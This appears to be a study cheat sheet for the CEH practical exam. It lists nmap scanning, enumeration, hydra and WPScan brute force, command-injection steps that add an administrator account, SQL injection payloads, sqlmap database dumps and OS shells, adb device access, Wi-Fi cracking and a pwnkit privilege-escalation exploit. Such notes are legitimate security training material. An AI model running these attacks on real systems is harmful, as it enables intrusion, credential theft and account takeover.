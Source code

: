 **Scanning Networks**

    1- Nmap scan for alive/active hosts command for 192.189.19.18- nmap -A 192.189.19.0/24 or nmap -T4 -A IP

    2- Zenmap/nmap command for TCP scan- First put the target ip in the Target: and then in the Command: put this command- nmap -sT -v 10.10.10.16

    3- Nmap scan if firewall/IDS is opened, half scan- nmap -sS -v 10.10.10.16 
    If even this the above command is not working then use this command-  namp -f 10.10.10.16
    4- -A command is aggressive scan it includes - OS detection (-O), Version (-sV), Script (-sS) and traceroute (--traceroute).

    5- Identify Target system os with (Time to Live) TTL and TCP window sizes using wireshark- Check the target ip Time to live value with protocol ICMP. If it is 128 then it is windows, as ICMP 
    value came from windows. If TTL is 64 then it is linux. Every OS has different TTL. TTL 254 is solaris.

    6- Nmap scan for host discovery or OS- nmap -O 192.168.92.10 or you can use nmap -A 192.168.92.10

    7- If host is windows then use this command - nmap --script smb-os-discovery.nse 192.168.12.22 (this script determines the OS, computer name, domain, workgroup, time over smb protocol (ports 
    445 or 139).

    8- nmap command for source port manipulation, in this port is given or we use common port-  nmap -g 80 10.10.10.10


**Enumeration**

    1- NetBios enum using windows- in cmd type- nbtstat -a 10.10.10.10 (-a displays NEtBIOS name table)

    2- NetBios enum using nmap- nmap -sV -v --script nbstat.nse 10.10.10.16

    3- SNMP enum using nmap-  nmap -sU -p 161 10.10.10.10 (-p 161 is port for SNMP)--> Check if port is open
                              snmp-check 10.10.10.10 ( It will show user accounts, processes etc) --> for parrot

    4- DNS recon/enum-  dnsrecon -d www.google.com -z

    5- FTP enum using nmap-  nmap -p 21 -A 10.10.10.10 

    6- NetBios enum using enum4linux- enum4linux -u martin -p apple -n 10.10.10.10 (all info)
				      enum4linux -u martin -p apple -P 10.10.10.10 (policy info)

**Quick Overview (Steganography) --> Snow, Openstego**

    1- Hide Data Using Whitespace Stegnography- snow -C -m "My swiss account number is 121212121212" -p "magic" readme.txt readme2.txt  (magic is password and your secret is stored in 
       readme2.txt along with the content of readme.txt)
    2- To Display Hidden Data- snow -C -p "magic" readme2.txt (then it will show the content of readme2.txt content)
    3- Image Stegnography using Openstego- PRACTICE ??


**Sniffing**

    1- Password Sniffing using Wireshark- In pcap file apply filter: http.request.method==POST (you will get all the post request) Now to capture password click on edit in menu bar, then near 
     Find packet section, on the "display filter" select "string", also select "Packet details" from the drop down of "Packet list", also change "narrow & wide" to "Narrow UTF-8 & ASCII", and 
     then type "pwd" in the find section.


**Hacking Web Servers**


    1- Footprinting web server Using Netcat and Telnet- nc -vv www.movies.com 80
						    GET /HTTP/1.0
						    telnet www.movies.com 80
						    GET /HTTP/1.0

    2- Enumerate Web server info using nmap-  nmap -sV --script=http-enum www.movies.com

    3- Crack FTP credentials using nmap-  nmap -p 21 10.10.10.10 (check if it is open or not)
				          ftp 10.10.10.10 (To see if it is directly connecting or needing credentials)


    Then go to Desktop and in Ceh tools folder you will find wordlists, here you will find usernames and passwords file.
    Now in terminal type-  hydra -L /home/attacker/Desktop/CEH_TOOLS/Wordlists/Username.txt -P /home/attacker/Desktop/CEH_TOOLS/Wordlists/Password.txt ftp://10.10.10.10


    hydra -l user -P passlist.txt ftp://10.10.10.10



**Hacking Web Application**


    1- Scan Using OWASP ZAP (Parrot)- Type zaproxy in the terminal and then it would open. In target tab put the url and click automated scan.

    2- Directory Bruteforcing- gobuster dir -u 10.10.10.10 -w /home/attacker/Desktop/common.txt

    3- Enumerate a Web Application using WPscan & Metasploit BFA-  wpscan --url http://10.10.10.10:8080/NEW --enumerate u  (u means username) 
    Then type msfconsole to open metasploit. Type -  use auxilliary/scanner/http/wordpress_login_enum
 						 show options
						 set PASS_FILE /home/attacker/Desktop/Wordlist/password.txt
						 set RHOSTS 10.10.10.10  (target ip)
						 set RPORT 8080          (target port)
						 set TARGETURI http://10.10.10.10:8080/
						 set USERNAME admin

    4- Brute Force using WPscan -    wpscan --url http://10.10.10.10:8080/NEW -u root -P passwdfile.txt (Use this only after enumerating the user like in step 3)
                                     wpscan --url http://10.10.10.10:8080/NEW --usernames userlist.txt, --passwords passwdlist.txt 

    5- Command Injection-  | net user  (Find users)
 		       | dir C:\  (directory listing)
                       | net user Test/Add  (Add a user)
		       | net user Test      (Check a user)
		       | net localgroup Administrators Test/Add   (To convert the test account to admin)
		       | net user Test      (Once again check to see if it has become administrator)
    Now you can do a RDP connection with the given ip and the Test account which you created.


**SQL Injections**

    1- Auth Bypass-  hi'OR 1=1 --

    2- Insert new details if sql injection found in login page in username tab enter- blah';insert into login values('john','apple123');--

    3- Exploit a Blind SQL Injection- In the website profile, do inspect element and in the console tab write -  document.cookie
    Then copy the cookie value that was presented after this command. Then go to terminal and type this command,
    sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value that you copied and don't remove square brackets]" --dbs

    4- Command to check tables of database retrieved-  sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value that you copied and don't remove square brackets]" -D databasename 
     --tables

    5- Select the table you want to dump-  sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value that you copied and don't remove square brackets]" -D databasename -T 
    Table_Name --dump   (Get username and password)

    6- For OS shell this is the command-   sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value that you copied and don't remove square brackets]" --os-shell

    6.1 In the shell type-   TASKLIST  (to view the tasks)

    6.2 Use systeminfo for windows to get all os version

    6.3 Use uname -a for linux to get os version



**Android**

    1- nmap ip -sV -p 5555    (Scan for adb port)

    2- adb connect IP:5555    (Connect adb with parrot)

    3- adb shell              (Access mobile device on parrot)

    4- pwd --> ls --> cd sdcard --> ls --> cat secret.txt (If you can't find it there then go to Downloads folder using: cd downloads)


**Wireshark**

    tcp.flags.syn == 1 and tcp.flags.ack == 0    (How many machines) or Go to statistics IPv4 addresses--> Source and Destination ---> Then you can apply the filter given

    tcp.flags.syn == 1   (Which machine for dos)

    http.request.method == POST   (for passwords) or click tools ---> credentials Also
   


**Find FQDN**

    nmap -p389 –sV -iL <target_list>  or nmap -p389 –sV <target_IP> (Find the FQDN in a subnet/network)


**Cracking Wi-Fi networks**

    Cracking Wifi Password

    aircrack-ng [pcap file] (For cracking WEP network)

    aircrack-ng -a2 -b [Target BSSID] -w [password_Wordlist.txt] [WP2 PCAP file] (For cracking WPA2 or other networks through the captured .pcap file)


**Some extra work**


    Check RDP enabled after getting ip- nmap -p 3389 -iL ip.txt | grep open (ip.txt contains all the alive hosts from target subnet)

    Check MySQL service running- nmap -p 3306 -iL ip.txt | grep open        (ip.txt contains all the alive hosts from target subnet)


**1) Wireless attack**

    --> aircrack-ng cap_file -w password_dir

**2) malware analysis**

    --> PEiD tool 
    1) open file
    2) find information

**3) IOT**
    
    1) search mqtt on the traffic
    2) select publish message
    3) find the msg len

**4) privilege escalation**
 
     1) for linux download linpeas
        => https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS
     2) find a vulnerability like (pwnkit)
     3) go to https://github.com/arthepsy/CVE-2021-4034
     4) git clone
     5) cd to that exploit
     6) enter make
     7) run the compiled code 
     8) whoami 

**5) Android**
  
    with phonsploit
      1) download phonesploit
      2) run with python3 phonesploit.py
      3) Enter the IP
      4) type 4 to get the shell
      5) search for the file
      6) to download exit from the shell then enter 9 then give the file path /



**6) Vulnerability analysis**

     1) click openvas
     2) Enter linux pass
     3) enter the local IP on the browser
     4) login with admin & password
     5) click scans > tasks > task wizard > enter the IP for scan > start scan
